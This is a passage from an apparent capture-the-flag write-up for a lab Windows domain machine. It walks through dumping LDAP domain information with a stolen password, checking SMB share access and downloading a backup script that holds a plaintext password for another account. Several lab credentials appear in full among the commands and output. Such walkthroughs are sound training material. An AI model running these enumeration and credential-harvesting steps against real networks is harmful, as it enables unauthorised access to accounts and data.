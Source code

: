 However, looking through bloodhound gives us no leads, but we will keep this information on the side.
Using ldapdomaindump, we can dump all kinds of information about the domain.
```
┌──(tsunami㉿coffee)-[~/Documents/cicada/loot]
└─$ ldapdomaindump -u cicada.htb\\michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' -dc-ip 10.129.150.50
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

Looking through a few files, eventually we find a password in a description field.
![capture-7](capture-07.PNG)

Using this password, we note that this password is for the `david` account, so checking with smbmap map, we find that the password is valid.
```
[+] IP: 10.129.150.50:445       Name: cicada.htb                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        DEV                                                     READ ONLY
        HR                                                      READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
```
## david
After enumeating through SMB, we find that we now have access to the `DEV` share.
```
┌──(tsunami㉿coffee)-[~/Documents/cicada]
└─$ smbclient //10.129.150.50/DEV -U 'cicada.htb/david.orelious%aRt$Lp#7t*VQ!3' 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024

                4168447 blocks of size 4096. 478012 blocks available
smb: \> get Backup_script.ps1 
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (4.8 KiloBytes/sec) (average 4.8 KiloBytes/sec)
smb: \> 
```
Looking inside we find a `Backup_script.ps1`, downloading it reveals a username and password for `Emily`.
```
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```
